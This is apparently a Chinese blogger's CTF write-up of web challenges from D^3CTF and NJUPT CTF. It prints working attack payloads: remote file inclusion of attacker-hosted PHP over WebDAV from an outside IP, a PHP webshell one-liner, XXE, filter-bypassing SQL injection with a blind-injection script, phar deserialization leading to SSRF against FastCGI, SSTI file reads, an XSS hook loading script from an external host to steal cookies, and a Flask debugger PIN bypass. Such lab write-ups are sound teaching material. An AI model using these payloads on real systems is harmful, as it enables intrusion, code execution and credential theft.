

这周末本来想打D^3，但是难度太大了实在不会。就一边解南邮的NJUPT ctf了，所以两场比赛的wp就放在一起吧。D^3最后就解出一道题2333，太菜了，后面等wp出来得好好复现了。
D^3CTF
fakeonlinephp
1 | ($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__); |
有原题，但是不是原来的打法，因为这里是windows系统
尝试远程包含，发现是windows服务器，而且allow_url_include没有开
正常情况下无法远程包含，但是因为是windows，可以绕过allow_url_include的限制RFI，参考：
首先启用WebDAV：
1 | docker run -v ~/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav |
启用后在~/webdav/data下放置php文件
包含：?orange=//106.15.250.162//webdav/test.php
尝试写入eval一句话，发现好像有过滤，写入assert可以
然后通过assert写入一句话：
cmd=file_put_contents('../somnus','@<?php eval(($_POST){somnus})?> ;');
然后蚁剑连接，搜索目录，没发现flag
尝试扫描内网发现存在内网ip 172.19.97.8
估计要内网渗透，但是估计别人直接渗透完忘记删net session了，可以直接远程访问列目录，flag.txt就在管理员桌面下
NJUPT CTF
Fake XML cookbook
用户名字段存在有回显xxe，payload直接打，flag在根目录下：
1 | <!DOCTYPE ANY [ |
True XML cookbook
同样有回显，但是flag路径不知道，读取源码没看到可以利用的点，只能想到利用xxe进行ssrf打内网，扫描一下内网ip的几个文件：/etc/hosts，/proc/net/arp，/proc/net/fib_trie
在arp表中发现很多内网ip：
然后一个个试，最终访问到192.168.1.8这个ip得到flag
SQLi
语句：
1 | select * from users where username='' and passwd='' |
简单测试一下，发现过滤了如下关键字：
1 | , ' " and or # - + = 空格 |
过滤了单引号，只能用反转义\来闭合，但是又过滤了所有注释符，于是就想到用;%00来截断最后末尾的单引号
payload：
1 | username=123\&passwd=||1;%00 |
登陆成功，302跳转到welcome.php
提示我们要通过注入获取密码password
回到原来的登陆页面，目前只有登陆失败和成功的区别（302跳转），只能考虑盲注
继续fuzz测试，发现过滤了如下关键字：
1 | substr mid select () , |
闭合括号中没有东西()会被黑名单过滤
截取字符串函数只剩下right和left，但是又过滤了逗号，没办法截取字符了，只剩下一个可以利用的ascii，而且判断的关键字=，<>，like也被过滤了，只剩下regexp可以利用
而且既然过滤了select，我们也不可能去执行查询，只能构造简单的判断字段的语句
最后就想到了如下判断语句：
1 | passwd=||passwd/**/regexp/**/0x79;%00 |
因为0x可以表示十六进制，regexp又可以逐个字符来进行正则匹配，我们就可以逐一字符的判断，测试如下：
先通过ascii手动爆破出第一位
1 | username=123\&passwd=||ascii(passwd)/**/regexp/**/121;%00 |
发现是y
接下来exp爆破：
1 | import requests |
爆破出密码：you_will_never_know7788990
登陆任意用户名即可获得flag
phar matches everything
打开靶机，有个上传功能和检测图片类型的功能
这题直接告诉我们是phar反序列化，并且题目描述给了：*I hate VIM. *
说明应该存在swp源码泄露，打开靶机，逐个测试存在页面的swp文件，发现存在：.catchmime.php.swp
恢复得到源码：
1 |
|
很显然，通过getimagesize函数可以触发phar反序列化Main类，再通过$_GET['careful']反序列化Easytest类，构造链最终进行SSRF
POC：
1 |
|
这里需要注意上传带有文件后缀名jpeg的检测和getimagesize检测图片类型必须是jpeg，所以需要在Phar的头部加入jpg的文件头，这里我随便截取了一个jpg图片的头部的前几段16进制，只要能过检测上传就可以了
成功上传的结果图：

然后就是进行触发phar反序列化，赋值get参数careful反序列化Easytest
payload：
但是不知道flag路径，读源码也没有线索
读一下/etc/hosts，只发现本机内网ip：10.0.0.2，没有其他主机的ip信息，想到了题目给的提示：*they are very close *
随手测了一下ip：10.0.0.3，没想到还真有结果：

那么思路就是通过ssrf+gopher打fpm，可以参考evoa师傅的脚本：https://evoa.me/index.php/archives/52/#toc-SSRFGopher
生成执行phpinfo的payload：
发现open_basedir：/var/www/html:/tmp，并且禁用了系统命令函数system等
于是直接套绕open_basedir的payload即可：
easyphp
源码：
1 |
|
bypass waf rce，后面代码分为三层过滤
第一层过滤
1 | if($_GET['num'] !== '23333' && preg_match('/^23333$/', $_GET['num'])){ |
利用%0a绕过preg_match的检测：
1 | ?num=23333%0a |
第二层过滤
1 | if(is_numeric($string_1)){ |
两个md5一开始不相等，进行strtr的替换后相等，想到了0e开头，后面全是数字的字符串是相等的
要注意的是$string_1必须通过is_numeric的检测，那么就写个脚本爆破一个哪个数字经过md5后加密后，是0e开头的，并且后面除数字外只包含cxhp字符，这样，经过strtr替换后，得到的字符串就是0e开头，后面全是数字了
爆破exp如下：
1 | import hashlib |
爆破结果：2120624
传入payload：
1 | num=23333%0a&str1=2120624&str2=240610708 |
第三层过滤
1 | $query = $_SERVER['QUERY_STRING']; |
$_GET['q_w_q']长度小于等于8，并且$_SERVER['QUERY_STRING']检测不能包含下划线_
参考：https://zhidao.baidu.com/question/2140448796534468708.html?qq-pf-to=pcqq.c2c
php传入的变量名中如果有点号.，会被自动转化成下划线_
然后就是命令过滤了ls，可以用dir列目录：
1 | ?num=23333%0a&str1=2120624&str2=240610708&q.w.q=dir%20./ |
flllag.php在当前目录下，可以用head读取，但是直接输入flllag.php会超出长度限制，于是想到用文件通配符*
最终payload：
1 | ?num=23333%0a&str1=2120624&str2=240610708&q.w.q=head%20f* |
replace
打开靶机，是一个文字替换功能的页面：
hint.php
php5.6版本，于是就想到了preg_replace在/e模式下的命令执行
尝试在pat参数：test/e，但是出现了报错，截断test/e%00也出现了报错，后面直接尝试：
1 | sub=test&pat=test&rep=phpinfo() |
发现就执行了，原来源码中就直接带有模式/e
然后过滤了引号，用chr函数表示字符
最终payload：
1 | sub=test&pat=test&rep=show_source(chr(47).chr(102).chr(108).chr(97).chr(103)); |
flask
打开靶机，是flask写的实现加密功能的网站
在md5加密和base64加密的参数中尝试ssti失败
访问sha256
发现返回了网址，尝试修改路由：123
发现直接回显，测试ssti，存在
然后就是直接一把梭读取/flag文件了，不过有过滤flag关键字，用字符串拼接方法即可绕过，payload：
1 | {{().__class__.__base__.__subclasses__()[40]('/fla'+'g').read()}} |

Upload your Shell
打开靶机，源码发现了参数index.php?action=，存在任意文件包含
直接包含不到flag，需要上传点，在imgs.html找到上传点
老套路修改上传得到路径，在包含得到flag
simple_xss
随便注册个账号，有个留言功能：
测试发现只有长度的限制，其他没有过滤，直接反弹到xss平台上接收：
1 | <script src="https://xss.pt/VKeu"></script> |
替换cookie得到flag：
hacker_backdoor
1 |
|
inctf PHP1.0的变形，加上过滤了eval和assert函数
执行phpinfo：
1 | ?useful=/etc/passwd&code=$a=p.h.p.i.n.f.o;$a(); |
跟inctf一样，没有禁用proc_open函数，直接按之前的做法，执行：
1 | proc_open("/readFlag>/tmp/hhx",array(),$z); |
直接之前的payload来打就行：
1 | ?useful=/etc/passwd&code=$a=p.r.o.c.(%a0^%ff).o.p.e.n;$a((%d0^%ff).r.e.a.d.f.l.a.g.(%c1^%ff).(%d0^%ff).t.m.p.%20(%d0^%ff).h.h.x,array(),$z); |

flask_website
打开靶机，有一个urllib的ssrf，能读取任意文件，有回显
但是直接读不到flag，并且扫了一下内网没有其他服务开放
另外还有一个flask运行错误的debug界面
看一下/app/QWQ.py源码
因为没有模板文件contact.html不存在，才产生了报错
既然出题人故意给我们debug界面，我们就可以尝试进入调试
但是要进入调试需要输入验证的PIN码
搜了一下，有个利用SSRF爆破flask PIN码的漏洞，参考：https://xz.aliyun.com/t/2553
需要的参数如下：
- username 通过/etc/passwd获取
- flask目录下app.py的绝对路径 ，通过debug界面爆破的路径就可以知道
- machine-id 通过/etc/machine-id或者/proc/sys/kernel/random/boot_id获取，当/etc/machine-id为空时该参数为空，如不存在，则为/proc/sys/kernel/random/boot_id中的值
- mac地址 通过/sys/class/net/ens0/address获取
依次读取参数后，套入爆破脚本
1 | import hashlib |
获取到PIN码：186-452-081
但是输入题目环境发现不对，卡了很久
后面去看了一下flask的获取pin的源码部分：/usr/local/lib/python3.6/site-packages/werkzeug/debug/init.py
发现读取machine-id的文件其实是/proc/self/cgroup这个文件
将脚本中的machine-id修改为：615e9ef0fb7593034c948b6ec0b5d22627cf79ccb1c404fc560ad5af1751bd08
再次运行得到PIN码：442-392-767
输入后成功进入调试，最后getflag